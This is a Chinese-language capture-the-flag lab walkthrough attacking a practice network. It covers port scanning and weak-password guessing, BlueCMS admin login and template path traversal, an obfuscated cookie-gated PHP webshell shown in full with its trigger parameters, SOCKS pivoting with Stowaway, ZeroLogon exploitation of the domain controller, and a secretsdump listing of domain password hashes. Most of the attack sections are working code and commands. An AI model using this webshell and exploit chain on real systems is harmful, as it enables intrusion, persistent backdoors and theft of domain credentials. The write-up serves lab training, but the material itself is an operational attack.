# Lab4


# lab4

# 端口扫描

```python
(base) ┌──(root㉿kali)-[~/webtools/fscan]
└─# ./fscan -h 192.168.10.10 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 1-65535
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 65535 个有效端口
[+] 端口开放 192.168.10.10:139
[+] 端口开放 192.168.10.10:135
[+] 端口开放 192.168.10.10:3306
[+] 端口开放 192.168.10.10:3389
[+] 端口开放 192.168.10.10:5040
[+] 端口开放 192.168.10.10:5820
[+] 端口开放 192.168.10.10:7680
[+] 端口开放 192.168.10.10:49664
[+] 端口开放 192.168.10.10:49669
[+] 端口开放 192.168.10.10:49667
[+] 端口开放 192.168.10.10:49666
[+] 端口开放 192.168.10.10:49665
[+] 端口开放 192.168.10.10:49670
[+] 端口开放 192.168.10.10:49668
[+] 存活端口数量: 14
[*] 开始漏洞扫描...
[*] 已完成 0/14 [-] MySQL 192.168.10.10:3306 root 123456 Error 1130: Host '192.168.122.228' is not allowed to connect to this MySQL server
[!] 扫描错误 192.168.10.10:3306 - Error 1130: Host '192.168.122.228' is not allowed to connect to this MySQL server
[!] 扫描错误 192.168.10.10:135 - [-] 解码主机信息失败: encoding/hex: odd length hex string
[!] 扫描错误 192.168.10.10:7680 - Get "https://192.168.10.10:7680": EOF
[*] 网站标题 http://192.168.10.10:5820 状态码:200 长度:9243   标题:演示网站 - Powered by BlueCMS
[+] 发现指纹 目标: http://192.168.10.10:5820 指纹: [CMS]
[!] 扫描错误 192.168.10.10:139 - netbios error
[!] 扫描错误 192.168.10.10:49670 - Get "http://192.168.10.10:49670": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:5040 - Get "http://192.168.10.10:5040": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49664 - Get "http://192.168.10.10:49664": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49668 - Get "http://192.168.10.10:49668": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49665 - Get "http://192.168.10.10:49665": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49666 - Get "http://192.168.10.10:49666": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49667 - Get "http://192.168.10.10:49667": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 192.168.10.10:49669 - Get "http://192.168.10.10:49669": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[*] 已完成 13/14 [-] (40/210) RDP 192.168.10.10:3389 administrator 123456~a remote error: tls: access denied
[*] 已完成 13/14 [-] (81/210) RDP 192.168.10.10:3389 admin 111111 remote error: tls: access denied
[*] 已完成 13/14 [-] (122/210) RDP 192.168.10.10:3389 admin Aa1234 remote error: tls: access denied
[*] 已完成 13/14 [-] (163/210) RDP 192.168.10.10:3389 guest guest#123 remote error: tls: access denied
[*] 已完成 13/14 [-] (204/210) RDP 192.168.10.10:3389 guest qwe123!@# remote error: tls: access denied
[+] 扫描已完成: 14/14
[*] 扫描结束,耗时: 10m1.300889701s
```

# 192.168.10.10:5820

发现是 BlueCMS v1.6，尝试访问后台 http://192.168.10.10:5820/admin，弱密码，admin:admin123456，登录成功

然后再后台右键编辑可以复制出一个新的地址



http://192.168.10.10:5820/admin/tpl_manage.php?act=edit&tpl_name=ann.htm

改成如下：

http://192.168.10.10:5820/admin/tpl_manage.php?act=edit&tpl_name=../../ann.php

然后就能修改根目录的 php 文件了

```python
<?php if ($_COOKIE['PHbOyj'] == "sd23sd3") {
    $yoLMnh='str_';
    $LQVYRx=$yoLMnh.'replace';
    $cysKpL=substr($LQVYRx,6);
    $VCyALJ='zxcszxctzxcrzxc_zxcrzxcezxc';
    if ($_GET['CTMXrD'] !== $_GET['qrkxzD'] && @md5($_GET['CTMXrD']) === @md5($_GET['qrkxzD'])){
    $kXiuGE = 'str_re';
    $VCyALJ=substr_replace('zxc',$kXiuGE,$VCyALJ);
    }else{die();}
    $cysKpL=$VCyALJ.$cysKpL;
    $yRmVuq = $cysKpL("4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF", "", "st4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFr4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF_r4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFep4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFl4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdFace4hzQvVe8TEXGKpofjDsI57aUORqt32ZylAkLJ6uiW1PNCHBbdF");
    $qWPkiL = $yRmVuq("7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw", "", "base7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw64_d7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCweco7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCwde7AgZ2pxqUBmrl0kSheXG1PLy8DfMOYaQsv45Ntb3iFuIREcnCw");
    $RGZDmA = $qWPkiL($yRmVuq("7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR", "", "Y7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR3JlY7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRXRl7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRX27UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRZ7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR17UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRbmN07UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMRaW7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR9u7UsFO9pVcXj6JhSHP1fZkE08ul2BTgLzCtoeArQaybvn3K5dMR"));
    $cXJzrK = $qWPkiL($yRmVuq("WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp", "", "ZXWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypZhWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypbCgkWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypX1BPWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypU1RWIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcypbJw=WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp=WIziTAC3q12aBFwn6d4ShQHou8Rrxj0kU95ZgPXbDEKJGNmcyp"));
    $wHXKAz = $qWPkiL($yRmVuq("WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv", "", "WnNWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvoWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuvb3WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvQWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvwelRWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvhWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvMWHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv0WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7VljuvM2WHc5tIkRQNa6iMgFKDAw0PXznOBEqeCL382fTo1J4sxd7Vljuv"));
    $nePsjv = $qWPkiL($yRmVuq("Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh", "", "J10pZu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4HjwhOw=Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh=Zu3PNeFQnGydOoBxg5bWKv9SAr1MILVRU2stDlT8JpqcX4Hjwh"));
    @$qOcGw = $cXJzrK;
    @$$qOcGw = $wHXKAz;
    @$xOzPT=$qOcGw.$$qOcGw;
    @$NCZbG=$xOzPT;
    @$$NCZbG=$nePsjv;
    @$JaKrv=$NCZbG;
    @$dcENB=$$NCZbG;
    @$OaKfS = $RGZDmA('$OValW,$zAlui','return "$OValW"."$zAlui";');
    @$JcwdP=$OaKfS($JaKrv,$dcENB);
    @$FhPurI = $RGZDmA("", $JcwdP);
    @$FhPurI();
    } ?>
```

```python
url/?CTMXrD[]=2&qrkxzD[]=1
JsQai[]=2&Vjdnk[]=1&Zshot0zTa3C6
Cookie:PHbOyj=sd23sd3
```





# flag1



flag：go-flag{ovuRsBeMqji13Rrc}

# 内网信息收集

然后查看网卡。发现存在第二张网卡 `192.168.20.10`



上传 fscan 扫描一下

```python
[+] 端口开放 192.168.20.30:445
[+] 端口开放 192.168.20.20:445
[+] 端口开放 192.168.20.10:445
[+] 端口开放 192.168.20.30:139
[+] 端口开放 192.168.20.20:139
[+] 端口开放 192.168.20.10:139
[+] 端口开放 192.168.20.30:135
[+] 端口开放 192.168.20.20:135
[+] 端口开放 192.168.20.10:135
[+] 端口开放 192.168.20.30:88
[+] 端口开放 192.168.20.10:3306
[+] 端口开放 192.168.20.10:7680
[+] 端口开放 192.168.20.20:7001
[*] NetInfo
[*] 192.168.20.20
   [->] cyberweb
   [->] 192.168.20.20
[*] NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] 网站标题 http://192.168.20.20:7001 状态码:404 长度:1164   标题:Error 404--Not Found
[+] 发现指纹 目标: http://192.168.20.20:7001 指纹: [weblogic]

```

整理为主机维度表格：

|主机IP|开放端口|可能服务|识别信息/备注|
| ---------------| ---------------------------| ---------------------------------------------------------------| ----------------------------------------------------------------------------------------------------------------|
|192.168.20.10|135, 139, 445, 3306, 7680|RPC、NetBIOS、SMB、MySQL、(可能)Windows Delivery Optimization|该机应为你当前双网卡所在内网侧主机之一|
|192.168.20.20|135, 139, 445, 7001|RPC、NetBIOS、SMB、WebLogic|NetBIOS：[cyberweb.cyberstrikelab.com](https://file+.vscode-resource.vscode-cdn.net/c%3A/Users/11714/.vscode/extensions/openai.chatgpt-0.4.76-win32-x64/webview/#)；系统：Windows Server 2012 R2 Standard 9600；http://192.168.20.20:7001 返回 404，指纹识别为 weblogic|
|192.168.20.30|88, 135, 139, 445|Kerberos、RPC、NetBIOS、SMB|开放 88 端口，疑似域相关主机（可能DC）|

补充汇总：

- SMB 三台都开（139/445）。
- 重点入口目前最明显是 192.168.20.20:7001 (WebLogic)。

‍

```python
C:\> ipconfig /all
Windows IP 配置
   主机名  . . . . . . . . . . . . . : DESKTOP-JFB57A8
   主 DNS 后缀 . . . . . . . . . . . : 
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
以太网适配器 以太网实例 0:
   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Realtek RTL8139C+ Fast Ethernet NIC #2
   物理地址. . . . . . . . . . . . . : A0-19-9B-95-2C-B9
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::d9ea:d6f0:1566:27d%17(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.10.10(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.10.233
   DHCPv6 IAID . . . . . . . . . . . : 278943958
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-2E-F9-3E-90-52-54-00-1F-11-D7
   DNS 服务器  . . . . . . . . . . . : 114.114.114.114
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用
以太网适配器 以太网实例 0 2:
   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Realtek RTL8139C+ Fast Ethernet NIC #3
   物理地址. . . . . . . . . . . . . : 40-47-BC-34-EC-33
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::dd5d:c711:b3b0:87de%16(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.20.10(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.20.1
   DHCPv6 IAID . . . . . . . . . . . : 297858072
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-2E-F9-3E-90-52-54-00-1F-11-D7
   DNS 服务器  . . . . . . . . . . . : 192.168.20.30
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用
```

发现 DNS 服务器指向 192.168.20.30。DNS 指向 .30 这个信息非常关键，在 Active Directory 环境中，DNS 服务器通常就是域控制器。

为了获取域控的主机名，通过执行带 `-a`​ 参数的 ping 命令，`-a` 参数会将 IP 反向解析为主机名：

```python
ping -a -n 1 192.168.20.30 -t > 1.txt
```

```python
正在 Ping WIN-7NRTJO59O7N [192.168.20.30] 具有 32 字节的数据:
来自 192.168.20.30 的回复: 字节=32 时间<1ms TTL=128
来自 192.168.20.30 的回复: 字节=32 时间<1ms TTL=128
来自 192.168.20.30 的回复: 字节=32 时间<1ms TTL=128
来自 192.168.20.30 的回复: 字节=32 时间<1ms TTL=128
```

由此确认域控的计算机名为 `WIN-7NRTJO59O7N`

# 搭建二层代理

先把 stowaway 的 windows_x64_agent.exe 上传上去，然后先启动 admin 端

```python
windows_x64_admin.exe -l 9999
```

然后再启动 agent 端

```python
windows_x64_agent.exe -c 172.16.233.2:9999 --cs gbk
```

在 stowaway\_admin 交互里执行，搭建 socks 代理

```python
use 0
socks 1080 
```



然后在攻击机（kali）走代理做内网探测

```python
# /etc/proxychains4.conf 追加一行
socks5 172.16.233.2 1080
```

测试一下能够访问到内网

```python
proxychains4 curl http://192.168.20.20:7001
```



windows 就使用 Proxifier 工具搭建代理





然后就可以访问内网了



# 192.168.20.30-flag3

DC是 Windows Server 2008 R2 Build 7600，这个版本非常可能存在ZeroLogon漏洞。

首先验证域控是否存在 ZeroLogon 漏洞。使用 dirkjanm 编写的 PoC 脚本：

```sh
git clone https://github.com/dirkjanm/CVE-2020-1472.git /tmp/CVE-2020-1472
python3 /tmp/CVE-2020-1472/cve-2020-1472-exploit.py WIN-7NRTJO59O7N 192.168.20.30
```

这个脚本接受两个参数：第一个是域控的 NetBIOS 计算机名 `WIN-7NRTJO59O7N`​（之前通过 `ping -a`​ 获取的），第二个是域控的 IP 地址（这里是 127.0.0.1，通过 socat 转发）。脚本的工作流程是：首先通过 RPC 端口映射器（EPM，端口 135）查询 Netlogon 服务的动态端口（本例中是 49157），然后连接到该端口，反复发送全零的 Challenge 和 Credential 进行认证尝试，成功后调用 `NetrServerPasswordSet2` 将机器账户密码置空。

执行结果：

```
Performing authentication attempts...
Target vulnerable, changing account password to empty string
Result: 0
Exploit complete!
```

漏洞利用成功，域控机器账户 `WIN-7NRTJO59O7N$` 的密码已被置为空。现在使用 impacket-secretsdump 通过 DRSUAPI 协议（DCSync 攻击）导出整个域的密码 hash：

```python
(base) ┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-secretsdump -no-pass -just-dc cyberstrikelab.com/'WIN-7NRTJO59O7N$'@192.168.20.30 
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:00f995cbe63fd30411f44d434b8dac98:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberstrikelab.com\cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:5ec3abbedd0da75d8005ace9df885235:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:6f4f09864a97eee5fc03306df4e70cce:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:8d74431b0327e988758096706b686561178b506b54c392bc7fc983d795885a4d
Administrator:aes128-cts-hmac-sha1-96:b341d7dde651392ecefbe9d668aa70bc
Administrator:des-cbc-md5:83b5fdef49431929
Administrator:rc4_hmac:00f995cbe63fd30411f44d434b8dac98
krbtgt:aes256-cts-hmac-sha1-96:81eac4fb1383dcbc80cb124aa6074c889f22c4801c0a7825bf8195f77c5cf725
krbtgt:aes128-cts-hmac-sha1-96:65195790b2a7748a2bab4d9fd0e4ef89
krbtgt:des-cbc-md5:196bd04fa28c8531
krbtgt:rc4_hmac:5bc02b7670084dd30471730cc0a1672c
cyberstrikelab.com\cyberweb:aes256-cts-hmac-sha1-96:526cc567241dd83de3c3239db367cc969558522a6231f7257542bf85a7454ca3
cyberstrikelab.com\cyberweb:aes128-cts-hmac-sha1-96:55677ca76ede6687cb63b0c2fcb15274
cyberstrikelab.com\cyberweb:des-cbc-md5:dfad29f2467aa82f
